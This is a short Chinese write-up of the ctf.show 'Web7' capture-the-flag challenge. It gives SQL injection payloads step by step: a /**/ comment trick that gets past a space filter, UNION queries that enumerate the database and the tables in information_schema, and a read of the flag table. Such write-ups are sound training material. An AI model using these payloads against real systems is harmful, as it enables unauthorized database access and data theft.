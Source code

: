```yaml
---
title: "Web7  @WEB"
date: 2023-07-22
draft: false
author: "W"
tags: ["web","ctf.show"]
---
```


 sql注入，通过恒成立判断为数值型注入且过滤了空格，空格用/**/代替即可

```sql
id=-1/**/or/**/true
```

![](/ctf.show/12/1.webp)

1、页面存在显示位，能够直接将结果回显在web界面，使用联合注入进行查询，查询数据库名

```sql
id=-1/**/union/**/select/**/1,database(),3
```

![](/ctf.show/12/2.webp)

2、查询数据库中的表

```sql
id=-1/**/union/**/select/**/1,(select/**/group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema="web7"),3
```

![](/ctf.show/12/3.webp)

3、查询表flag中的内容,成功拿到flag

```sql
id=-1/**/union/**/select/**/1,(select/**/flag/**/from/**/flag),3
```

![](/ctf.show/12/4.webp)